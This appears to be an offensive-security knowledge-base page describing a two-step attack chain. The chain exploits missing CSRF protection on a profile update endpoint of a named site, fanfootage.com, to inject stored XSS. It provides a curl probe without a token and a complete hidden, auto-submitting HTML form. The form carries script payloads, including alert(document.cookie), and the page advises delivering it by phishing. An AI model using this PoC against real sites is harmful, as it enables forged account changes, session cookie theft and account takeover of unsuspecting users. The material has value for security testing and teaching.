

# CSRF Exploitation on User Profile Update Leading to Stored XSS Injection

Multi-stage attack chain demonstrating a complete workflow for exploiting CSRF in a web application's user profile update feature to inject malicious payloads, potentially leading to stored XSS and further attacks like account takeover.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Web browser for testing
- Text editor for crafting HTML PoC

### Target Environment

- Web application (e.g., Ruby on Rails)
- Required services/ports: HTTP/HTTPS on port 80/443
- Network access requirements: Ability to host or deliver malicious HTML from an external site

### Initial Access Requirements

- Attacker must trick an authenticated victim into visiting a malicious page
- No direct credentials needed; relies on victim's active session
- Prior access needed: None, but victim must be logged in to the target site

## Detailed Attack Procedures

### Step 1: Detect Missing CSRF Protection
procedure: [[procedures/Detect-Missing-CSRF-Protection-on-Update-Endpoint]]

**Objective**: Identify state-changing endpoints lacking CSRF token validation to confirm exploitability.

**Instructions**: Inspect the user update form or endpoint (e.g., /users/update) using browser developer tools or proxy like Burp Suite. Submit a test POST request without a CSRF token and observe if it succeeds. For example, use browser console or a simple curl test (if applicable) to POST to https://fanfootage.com/users/update with parameters like user[username]=test without any authenticity_token.

```bash
# Example curl to test (adapt to actual endpoint)
curl -X POST https://fanfootage.com/users/update -d "user[username]=test" -d "_method=patch" --cookie "session_id=victim_session"
```

**Expected Output**: Successful update without token, confirming missing protection.

**Success Indicators**:
- Request accepted without CSRF token
- Profile field updated in victim's account

### Step 2: Craft and Deliver CSRF PoC
procedure: [[procedures/Craft-CSRF-PoC-to-Inject-XSS-Payloads]]

**Objective**: Forge a request to update victim profile with XSS payloads, tricking the user into submission via a malicious page.

**Instructions**: Create an HTML page with a hidden form that auto-submits to the target endpoint. Host it on an attacker-controlled site and lure the victim (who is authenticated) to visit it. The form targets fields like username and full_name with payloads such as <script>alert(1)</script>.

Example HTML PoC:

```html
<!DOCTYPE html>
<html>
<body>
<form id="csrf-poc" action="https://fanfootage.com/users/update" method="POST" style="display:none;">
  <input type="hidden" name="utf8" value="&#x2713;">
  <input type="hidden" name="_method" value="patch">
  <input type="hidden" name="authenticity_token" value="">
  <input type="hidden" name="user[username]" value="<script>alert(1)</script>">
  <input type="hidden" name="user[full_name]" value="<script>alert(document.cookie)</script>">
</form>
<script>document.getElementById('csrf-poc').submit();</script>
</body>
</html>
```

Deliver via phishing email or malicious link. Verify by checking if victim's profile updates with the payload and if XSS triggers on profile view.

**Expected Output**: Victim's profile updated with injected script; alert pops on page load if rendered unsanitized."

**Success Indicators**:
- Malicious payload appears in user profile
- XSS executes, e.g., alert(1) or cookie theft

## Attack Chain Summary

### Key Achievements

1. Confirmed CSRF vulnerability in user update endpoint
2. Successfully forged profile update without user consent
3. Injected stored XSS payloads for potential escalation

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]] Exploit Public-Facing Application
- [[JavaScript]] JavaScript (for XSS payload)

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access (via forged request)
- [[Collection]] Collection (via XSS stealing data)

---
*Last updated: 2024-10-01T00:00:00Z*
